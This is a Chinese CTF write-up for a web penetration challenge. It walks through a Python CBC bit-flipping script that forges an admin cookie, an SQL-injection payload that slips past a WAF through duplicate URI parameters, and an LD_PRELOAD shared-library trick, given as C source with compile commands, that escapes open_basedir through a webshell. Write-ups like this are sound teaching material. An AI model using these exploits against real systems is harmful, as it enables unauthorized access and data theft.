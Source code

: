 title: 三个白帽之招聘又开始了，你怕了吗？-Writeup
date: 2016-06-17 15:14:27
tags: ctf
---

这周的三个白帽题听说是前几天ALICTF的招聘题延续，上次两题都没撸出来，这次给了源码终于撸出来了。
<!--more-->

该渗透题有三个大坑

# 坑1: CBC攻击
很简单的CBC攻击，上次google ctf中出现过，我也写过wp:<http://0x48.pw/2016/05/03/0x1A/>

直接贴脚本吧：
```py
#!/usr/bin/env python
#-*- coding:utf-8 -*-

import requests
import hashlib
import base64
import re

def fuck_captcha(s):
	for x in xrange(0, 10000000):
		y = hashlib.md5(str(x)).hexdigest()
		if y[:4] == s:
			return str(x)
	print "God personality.(%s)" %s
	exit(1)


url = "http://451bf8ea3268360ee.jie.sangebaimao.com/login.php"
url2 = "http://451bf8ea3268360ee.jie.sangebaimao.com"

req = requests.get(url)

c = req.headers['Set-Cookie'].split(";")[0]
c = c.split("=")
cookie = {c[0]: c[1]}

cap = re.findall("=([a-f0-9]{4})", req.content)[0]
captcha = fuck_captcha(cap)

data = {"username": "ddmin", "password": "ddog", "captcha": captcha}
req = requests.post(url, data=data, cookies=cookie, allow_redirects=False)

c = req.headers['Set-Cookie']

user = c.split("=")[1]

u = user.replace("-", "+").replace("_", "/")
u += "=" * (len(u) % 4)

de = base64.b64decode(u)
de2 = chr(ord(de[0]) ^ ord('d') ^ ord('a')) + de[1:]

en = base64.b64encode(de2).replace("+", "-").replace("/", "_").replace("=", "")
# cookie = {"username": en}
# req = requests.get(url, cookies=cookie)
print en
# 输出的en为admin的cookie
```

第一个坑的CBC攻击好几种方法，还可以构造任意字符，所以在这存在注入
```
// index.php
<?php
/**
* @author firesun 
* @website https://github.com/firesunCN
*/
require_once("header.php");

if (!isset($_COOKIE['username']) || decrypt($_COOKIE['username']) === "") {
    setcookie("username");
	header("Location: login.php");
    exit();
}

$sql="select * from user where username='".decrypt($_COOKIE['username'])."';";
```

因为cookie的值是base编码过的，所以waf并没有用，不过这注入太麻烦了，建议还是踩第二个坑.

# 坑2: 绕waf
```
// admin/user.php
<?php
/**
* @author firesun 
* @website https://github.com/firesunCN
*/
require_once('header.php');

if(!isset($_REQUEST["id"])) {
	header("Location: index.php");
	exit();
}
$sql="select * from user where id=".$_REQUEST["id"].";";
```

这很明显是注入，不过却上了waf，表示这waf怼不动，哪位师傅怼得动？求教！

waf虽然怼不动，不过却有其他问题，在waf.php的76-85行对uri的处理有问题
```
$uri = explode("?",$_SERVER['REQUEST_URI']);
if(isset($uri[1])) {
	$parameter = explode("&",$uri[1]);
	foreach ($parameter as $k => $v) {
		$v1 = explode("=",$v);
		if (isset($v1[1])) {
			$_REQUEST[$v1[0]] = stripStr($v1[1]);
		}
	}
}
```

提出来本地测试一下：
```
<?php
function stripStr($str) {
    if (get_magic_quotes_gpc())
        $str = stripslashes($str);
    return addslashes(htmlspecialchars($str, ENT_QUOTES, 'UTF-8'));
}

echo '$_REQUEST value is: ';
var_dump($_REQUEST);
echo '<br />$_GET value is: ';
var_dump($_GET);
echo '<br />$uri value is: ';
$uri = explode("?",$_SERVER['REQUEST_URI']);
var_dump($uri);
echo "<br />".'now the $_REQUEST value is: ';

if(isset($uri[1])) {
	$parameter = explode("&",$uri[1]);
	foreach ($parameter as $k => $v) {
		$v1 = explode("=",$v);
		if (isset($v1[1])) {
			$_REQUEST[$v1[0]] = stripStr($v1[1]);
		}
	}
}

var_dump($_REQUEST);
?>
```

访问：`http://127.0.0.1/test/test.php?id=2?&id=3`
输出：
```
$_REQUEST value is: array(1) { ["id"]=> string(1) "3" }
$_GET value is: array(1) { ["id"]=> string(1) "3" }
$uri value is: array(3) { [0]=> string(14) "/test/test.php" [1]=> string(4) "id=2" [2]=> string(5) "&id=3" }
now the $_REQUEST value is: array(1) { ["id"]=> string(1) "2" } 
```

所以根本不需要怼waf，uri被处理后，$_GET和$_REQUEST的值可以不一样，然后直接注入就好了

payload: `http://451bf8ea3268360ee.jie.sangebaimao.com/admin/user.php?id=-1/**/union/**/select/**/1,2,3,(select/**/content/**/from/**/memo),5?&id=3`

得到信息:
```
/NQTGmhlG3im8PUcsO2GgMCieThLtbqi4.php
password:firesun
flag is at /.
```

然后就是最后一步了

# 坑3: bypass open_basedir

给的信息一看就知道是webshell, 先开AntSword连马，发现啥也干不了，看了看phpinfo()，发现ban了一堆函数，看着咋这么熟悉......这不是ALICTF的homework么，出题人也都是firesun师傅. 

首先看看能不能写文件，写文件的方法是从homework想出来的，使用`move_uploaded_file`，文件上传的函数写到`/tmp`目录下，读文件通过`highlight_file`或者`show_source`这类函数, 这里还有一个小坑，上传到`/tmp`目录的文件会被秒删，我们秒读就好了.

bypass open_basedir方法链接: <http://drops.wooyun.org/tips/16054>

不过和homework一样，服务器的命令基本都被ban了(像啥nc, cat, python，ls)全被ban了，所以按照homework的套路，用C来读目录和文件

```
//ddog.c
#include<stdlib.h>
#include<stdio.h>
#include<string.h>
#include<dirent.h>

void payload() {
	//DIR *dirp;
	//struct dirent *dp;
	FILE *fp, *fp2;
	char buf[100];
	//dirp = opendir("/");  //flag在/目录下
	fp = fopen("/tmp/tteesstt", "w");
	fp2 = fopen("/flag_gei_ni_ni_Ye_du_bu_LIAO", "r");
	fgets(buf, 100, fp2);
	fputs(buf, fp);
	//while ((dp = readdir(dirp)) != NULL) {
	//	fputs(dp->d_name, fp);    //得到/flag_gei_ni_ni_Ye_du_bu_LIAO文件路径
	//}
	fclose(fp);
	fclose(fp2);
	//closedir(dirp);
}

int geteuid() {
	if (getenv("LD_PRELOAD") == NULL) {
		return 0;
	}
	unsetenv("LD_PRELOAD");
	payload();
}
```

编译成so库
```
$ gcc -c -fPIC ddog.c -o ddog
$ gcc -shared ddog -o ddog.so
```

得到`ddog.so`，上传到`/tmp`，读文件信息一条龙:
![sanmao](http://qn.lazysheep.cc/img/sanmao.png)






